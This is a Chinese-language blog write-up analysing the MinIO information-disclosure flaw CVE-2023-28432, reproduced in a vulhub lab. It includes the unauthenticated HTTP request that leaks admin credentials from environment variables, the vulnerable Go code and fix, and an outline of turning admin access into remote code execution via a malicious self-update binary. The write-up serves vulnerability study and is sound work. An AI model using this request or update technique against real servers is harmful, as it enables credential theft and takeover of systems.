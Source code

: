 ```yaml
---
title: MinIO信息泄漏漏洞分析
date: 2023-04-02 11:36:00
updated: 2023-04-02 18:15:00
tags: [security]
description: 对CVE-2023-28432漏洞的复现、分析与利用
category: Cloud
---
```




> 参考文章：
>
> https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ
>
> https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q
>
> 漏洞比较新，很多师傅也写了博客记录了自己的尝试，很多地方可能写的不是特别明确，这里也结合了一些自己的思考去尝试分析。

## 漏洞复现

> 可以用vulhub上配好的docker文件来起漏洞环境

```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![image-20230401222111087](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20230401222111087.png)

得到账号密码`minioadmin/minioadmin-vulhub`

![image-20230401222515539](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20230401222515539.png)

可以成功登陆后台

MinIO后台如何RCE我们后面再说，先看一看漏洞的成因

## 漏洞分析

有漏洞版本的代码

![image-20230401230547112](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20230401230547112.png)

在集群模式下会注册`/minio/bootstrap/v1/verify`这个路由

```go
// minio/cmd/bootstrap-peer-server.go
func (b *bootstrapRESTServer) VerifyHandler(w http.ResponseWriter, r *http.Request) {
  ctx := newContext(r, w, "VerifyHandler")
  cfg := getServerSystemCfg()
  logger.LogIf(ctx, json.NewEncoder(w).Encode(&cfg))
}

// minio/cmd/bootstrap-peer-server.go
func getServerSystemCfg() ServerSystemConfig {
  envs := env.List("MINIO_")
  envValues := make(map[string]string, len(envs))
  for _, envK := range envs {
    // skip certain environment variables as part
    // of the whitelist and could be configured
    // differently on each nodes, update skipEnvs()
    // map if there are such environment values
    if _, ok := skipEnvs[envK]; ok {
      continue
    }
    envValues[envK] = env.Get(envK, "")
  }
  return ServerSystemConfig{
    MinioEndpoints: globalEndpoints,
    MinioEnv:       envValues,
  }
}
```

而根据这部分代码，由于此路由没有鉴权，请求接口就会返回环境变量。MinIO启动时会从环境变量中读取预设的管理员账号密码，所以环境变量中存在管理员账号。如果没有预设，那么就是默认的账号密码。

因此从攻击角度来说，这个信息泄漏会导致无论是否预设，都能拿到账号密码登陆。

![image-20230401230255122](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20230401230255122.png)

再看一下修复方案，也是把账号密码等从接口中移除回显，同时增加了对于接口的鉴权部分。

## 漏洞利用

### 通过自更新完成RCE

> 参考：
>
> https://y4er.com/posts/minio-cve-2023-28432/
>
> https://github.com/AbelChe/evil_minio

MinIO是Go写的项目，语言本身缺乏动态特性，不过有意思的是后台具备自更新功能，可以利用这个功能运行恶意二进制文件完成RCE。

在`/minio/admin/v3/update?updateURL={updateURL}`这个路由的功能中，可以从远程加载二进制文件，下载并更新。

具体可以利用minio的cli客户端工具，进行更新

![image-20230402110448794](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20230402110448794.png)

但是如果是一个伪造好的恶意二进制文件，运行后minio的服务就宕机了，这里可以参考`https://github.com/AbelChe/evil_minio`项目，思路是魔改minio，添加一个后门路由来完成不破坏原有服务，完成RCE的工作。